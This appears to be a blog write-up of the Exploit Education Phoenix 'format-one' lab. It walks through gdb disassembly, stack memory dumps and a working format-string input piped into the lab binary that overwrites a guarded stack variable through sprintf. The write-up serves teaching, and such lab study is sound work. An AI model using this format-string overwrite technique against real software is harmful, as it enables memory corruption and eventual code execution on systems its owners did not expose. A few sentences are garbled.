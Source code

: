 ```yaml
---
layout: post
title: Format One Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand format one exercise format string vulnerability with learning resources.
comments: true
---
```


## Previous Writeup: 

1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)
6. [Stack Five Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html)
7. [Stack Six Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/26/exploit-education-stack-six-exercise-writeup.html)
8. [Format Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-zero-exercise-writeup.html)

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

## Quick Overview

Similar to [Format Zero Writeup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-zero-exercise-writeup.html), Format One exercise motives are smashing the stack, overwrite arbitrary memory address or variable. However, this format one challenge revolves around [`Format String Vulnerability`](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/).

## Disassemble

Disassembling the code will get you overall idea behind the format-one code, One can use `gdb ./format-one` to start debugging it in runtime.

1. `gdb ./format-one`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x00000000004006ed <+0>:     push   rbp
   0x00000000004006ee <+1>:     mov    rbp,rsp
   0x00000000004006f1 <+4>:     sub    rsp,0x50
   0x00000000004006f5 <+8>:     mov    DWORD PTR [rbp-0x44],edi
   0x00000000004006f8 <+11>:    mov    QWORD PTR [rbp-0x50],rsi
   0x00000000004006fc <+15>:    mov    edi,0x4007e0
   0x0000000000400701 <+20>:    call   0x400530 <puts@plt>
   0x0000000000400706 <+25>:    mov    rdx,QWORD PTR [rip+0x200433]        # 0x600b40 <stdin>
   0x000000000040070d <+32>:    lea    rax,[rbp-0x40]
   0x0000000000400711 <+36>:    mov    esi,0xf
   0x0000000000400716 <+41>:    mov    rdi,rax
   0x0000000000400719 <+44>:    call   0x400520 <fgets@plt>
   0x000000000040071e <+49>:    test   rax,rax
   0x0000000000400721 <+52>:    jne    0x400737 <main+74>
   0x0000000000400723 <+54>:    mov    esi,0x40082b
   0x0000000000400728 <+59>:    mov    edi,0x1
   0x000000000040072d <+64>:    mov    eax,0x0
   0x0000000000400732 <+69>:    call   0x400540 <errx@plt>
   0x0000000000400737 <+74>:    mov    BYTE PTR [rbp-0x31],0x0
   0x000000000040073b <+78>:    mov    DWORD PTR [rbp-0x10],0x0
   0x0000000000400742 <+85>:    lea    rdx,[rbp-0x40]
   0x0000000000400746 <+89>:    lea    rax,[rbp-0x30]
   0x000000000040074a <+93>:    mov    rsi,rdx
   0x000000000040074d <+96>:    mov    rdi,rax
   0x0000000000400750 <+99>:    mov    eax,0x0
   0x0000000000400755 <+104>:   call   0x400550 <sprintf@plt>
   0x000000000040075a <+109>:   mov    eax,DWORD PTR [rbp-0x10]
   0x000000000040075d <+112>:   cmp    eax,0x45764f6c
   0x0000000000400762 <+117>:   je     0x40077a <main+141>
   0x0000000000400764 <+119>:   mov    eax,DWORD PTR [rbp-0x10]
   0x0000000000400767 <+122>:   mov    esi,eax
   0x0000000000400769 <+124>:   mov    edi,0x400840
   0x000000000040076e <+129>:   mov    eax,0x0
   0x0000000000400773 <+134>:   call   0x400510 <printf@plt>
   0x0000000000400778 <+139>:   jmp    0x400784 <main+151>
   0x000000000040077a <+141>:   mov    edi,0x400878
   0x000000000040077f <+146>:   call   0x400530 <puts@plt>
   0x0000000000400784 <+151>:   mov    edi,0x0
   0x0000000000400789 <+156>:   call   0x400560 <exit@plt>
```

Before taking a look at the code, if you disassembled the format-one using gdb to view the assembly instruction, you may notice the puts, fgets, sprintf function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/format-one, brought to you by https://exploit.education` message via Puts (aka printf) method
2. Declares `locals` struct with `char dest[32]` and `volatile int changeme` 
3. Utilizes `fgets` to collect user input and transfers to the buffer with `buffer` size as limit.
4. Assigns struct variable `locals.changeme` as `0x45764f6c`
5. Formats `buffer` variables using `sprintf` and saves in `locals.dest` 
6. Verifies that if `locals.changeme` variables for changes.

## Memory Allocation

 If you take closer look at the memory allocation, every variables declared in the program are allocated in the stack (static). The locals struct contains both `char dest[32]` and `int changeme` variables packed. Additionally, `buffer` char array with size of 16 is allocated next to the struct `locals`. Technically, you can't basically overwrite the `struct` with `buffer` char array. However, things get tricky when the program starts using `sprintf` function to format the `buffer` char array and writes back to `locals.dest` buffer.

 Basically, Format String vulnerability happens because certain type of inputs ( such as `%32x`) as format string modifier to `sprintf` causes the function to expand and write `approximately 32 bytes` into `locals.dest` variable. `sprintf(locals.dest, '%32x')` has special meaning within the function to expand this modifier into memory address in stack say range upto 32 bytes and then copies back to `locals.dest` thus overwriting both locals.dest as well as `locals.changeme` variable in memory.

### State of memory before executing exploit
 ```shell
 (gdb) x/16x $rbp-0x40
0x7fffffffe620: 0x78323325      0x45764f6c      0x0000000a      0x00000000
0x7fffffffe630: 0x00000000      0x00000000      0xffffe6b8      0x00007fff
0x7fffffffe640: 0x00000001      0x00000000      0xffffe6c8      0x00007fff
0x7fffffffe650: 0x00000000      0x00000000      0x00000000      0x00000000
```

### State of memory after executing exploit (Overwritten by sprintf function)
 ```shell
(gdb) x/16x $rbp-0x40
0x7fffffffe620: 0x78323325      0x45764f6c      0x0000000a      0x00000000
0x7fffffffe630: 0x20202020      0x20202020      0x20202020      0x20202020
0x7fffffffe640: 0x20202020      0x20202020      0x66666666      0x30323665
0x7fffffffe650: 0x45764f6c      0x0000000a      0x00000000      0x00000000  # <----- 0x45764f6c 
```

## Exploit

Now, our strategy should be,

1. Input `format string` as `%32x\x6c\x4f\x76\x45`
2. Now, `sprintf` overwrites the `locals.dest` using random address from stack completely overwriting  `32 format string characters` and the memory address `0x45764f6c` in the memory including `locals.changeme` variable which sits next to `locals.dest`

```shell
user@phoenix-amd64:$ echo -e "%32x\x6c\x4f\x76\x45" | /opt/phoenix/amd64/format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed correctly!
```

There you go! 🎉 You've officially `pwned` the may eventually gain code execution in upcoming exercises 🪲

![buffer-overflow-pride](/assets/media/htb-sherlock.webp)

## Source and Reference:

1. Format One Exercise: [Exploit Education](https://exploit.education/phoenix/format-one/)


## Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
